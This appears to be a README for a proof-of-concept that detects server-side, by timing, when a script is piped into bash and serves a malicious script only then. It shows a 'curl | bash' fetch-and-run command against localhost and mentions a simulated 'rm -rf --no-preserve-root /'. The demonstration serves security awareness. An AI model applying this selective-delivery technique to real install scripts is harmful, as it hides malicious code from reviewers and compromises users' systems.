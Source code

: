 # curl-bash-attack

An implementation of an attack that detects a usage of `curl | bash` on the server side to serve a malicious script only to the users who run the command.

The attack utilizes the way `bash` scripts are executed and measures time between subsequent TCP packets are received to distinguish between running `curl | bash` vs just downloading the script. More details on how the attack works can be found in the [blog post](http://web.archive.org/web/20240423134349/https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/).

![Screencast](docs/screencast.svg)

## Quick Start

Make sure you have [cargo](https://doc.rust-lang.org/cargo/getting-started/installation.html) installed before proceeding.

```shell
cargo run
```

After that, in another terminal, you can test the attack by running:

```shell
curl -s http://localhost:8080 | bash
```

You should see `running rm -rf --no-preserve-root /...` in the terminal. Don't worry, the command is not actually executed, it's just a demonstration of the attack!

For comparison, you can run the following command:

```shell
curl -s http://localhost:8080 | cat
```

You should just see the following script in the terminal:

```shell
echo Hello!
sleep 2
echo nothing to do...
```

## License

The project is dual-licensed under the [MIT](LICENSE-MIT) and [Apache-2.0](LICENSE-APACHE) licenses.

## Attribution

The attack is based on [the blog post published on idontplaydarts.com](http://web.archive.org/web/20240423134349/https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/).

The source code uses an experimental web framework [Flareon](https://github.com/flareon-rs/flareon).
